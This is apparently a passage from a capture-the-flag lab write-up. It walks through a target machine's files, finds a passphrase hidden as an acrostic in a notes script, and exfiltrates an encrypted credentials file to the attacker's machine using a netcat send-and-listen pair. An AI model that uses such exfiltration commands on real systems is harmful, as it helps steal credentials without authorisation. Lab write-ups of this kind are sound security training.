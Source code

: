 ```bash
seb@Milburg-High:~/Documents$ ls -laR
.:
total 20
drwxr-xr-x  3 bob bob 4096 Mar  5  2018 .
drwxr-xr-x 18 bob bob 4096 Mar  8  2018 ..
-rw-r--r--  1 bob bob   91 Mar  5  2018 login.txt.gpg
drwxr-xr-x  3 bob bob 4096 Mar  5  2018 Secret
-rw-r--r--  1 bob bob  300 Mar  4  2018 staff.txt

./Secret:
total 12
drwxr-xr-x 3 bob bob 4096 Mar  5  2018 .
drwxr-xr-x 3 bob bob 4096 Mar  5  2018 ..
drwxr-xr-x 4 bob bob 4096 Mar  5  2018 Keep_Out

./Secret/Keep_Out:
total 16
drwxr-xr-x 4 bob bob 4096 Mar  5  2018 .
drwxr-xr-x 3 bob bob 4096 Mar  5  2018 ..
drwxr-xr-x 3 bob bob 4096 Mar  5  2018 Not_Porn
drwxr-xr-x 2 bob bob 4096 Mar  5  2018 Porn

./Secret/Keep_Out/Not_Porn:
total 12
drwxr-xr-x 3 bob bob 4096 Mar  5  2018 .
drwxr-xr-x 4 bob bob 4096 Mar  5  2018 ..
drwxr-xr-x 2 bob bob 4096 Mar  5  2018 No_Lookie_In_Here

./Secret/Keep_Out/Not_Porn/No_Lookie_In_Here:
total 12
drwxr-xr-x 2 bob bob 4096 Mar  5  2018 .
drwxr-xr-x 3 bob bob 4096 Mar  5  2018 ..
-rwxr-xr-x 1 bob bob  438 Mar  5  2018 notes.sh
```

The notes.sh has the following:
```bash
#!/bin/bash
clear
echo "-= Notes =-"
echo "Harry Potter is my faviorite"
echo "Are you the real me?"
echo "Right, I'm ordering pizza this is going nowhere"
echo "People just don't get me"
echo "Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>"
echo "Cucumber"
echo "Rest now your eyes are sleepy"
echo "Are you gonna stop reading this yet?"
echo "Time to fix the server"
echo "Everyone is annoying"
echo "Sticky notes gotta buy em"
```
Note the capitalised letters which spell out "HARPOCRATES".  
Send the login.txt.gpg file to the local machine via Netcat:
```bash
seb@Milburg-High:/home/bob/Documents$ nc 192.168.34.138 9998 < login.txt.gpg
```
Recieve it on the local machine and decrypt the file with the password "HARPOCRATES".
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ nc -lvnp 9998 > login.txt.gpg                                                   
listening on [any] 9998 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.145] 46242
^C
```